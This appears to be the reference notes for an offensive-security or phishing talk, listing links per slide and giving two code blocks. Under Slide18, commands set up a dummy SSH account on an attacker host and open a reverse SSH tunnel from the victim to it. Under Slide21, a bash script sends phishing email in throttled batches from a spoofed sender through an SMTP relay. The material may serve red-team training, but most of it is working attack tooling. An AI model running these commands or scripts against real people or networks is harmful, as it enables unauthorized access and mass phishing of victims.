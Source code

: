 Slide6:
https://www.exim.org/exim-html-current/doc/html/spec_html/ch-building_and_installing_exim.html
https://www.aapanel.com/docs/#/3?page_id=178

Slide13:
https://x.com/CICADA8Research/status/1865676412444967384

Slide14-15:
https://vk.com/video-221945088_456239438

Slide16:
https://www.rbtsec.com/blog/cve-2024-21320-windows-themes-spoofing-vulnerability-walkthrough/
https://blog.0patch.com/2024/10/we-patched-cve-2024-38030-found-another.html

Slide17:
https://link.springer.com/article/10.1007/s10207-021-00548-5
https://posts.specterops.io/phishing-with-dynamite-7d33d8fac038

Slide18:
https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/
https://badoption.eu/blog/2023/09/28/ZipLink.html

```shell
attacker> sudo /etc/init.d/ssh start
attacker> useradd -M -N -d /dev/null -s /bin/false proxy
attacker> passwd proxy
victim> ssh proxy@attacker -N -R 1337
```

Slide21:

```shell
#!/bin/bash

EMAILS_FILE="emails.txt"

SENDMAIL_CMD='cat ./msg.txt | sendemail -f "Служба фишинга <task@pohek.ru>" -t "<email>" -u "Ломаем" -s smtp.phish:123 -xu user -xp password -o message-charset=utf-8'

if [[ ! -f "$EMAILS_FILE" ]]; then
    echo "File $EMAILS_FILE not found!"
    exit 1
fi

emails=($(cat "$EMAILS_FILE"))
emails_count=${#emails[@]}

batch_size=50    # Число адресатов за раз
interval=600     # Интервал в секундах (10 минут)

current_index=0
while [[ $current_index -lt $emails_count ]]; do

    batch_emails=("${emails[@]:$current_index:$batch_size}")
    
    echo "Sending next block email'ов (${current_index} - $((current_index + batch_size - 1))):"
    
    for email in "${batch_emails[@]}"; do
        eval "${SENDMAIL_CMD/<email>/$email}"
        echo "Sending mail to $email"
    done

    current_index=$((current_index + batch_size))
    
    if [[ $current_index -lt $emails_count ]]; then
        echo "Waiting $((interval / 60)) minutes before next sending..."
        sleep $interval
    fi
done

echo "Success!"
```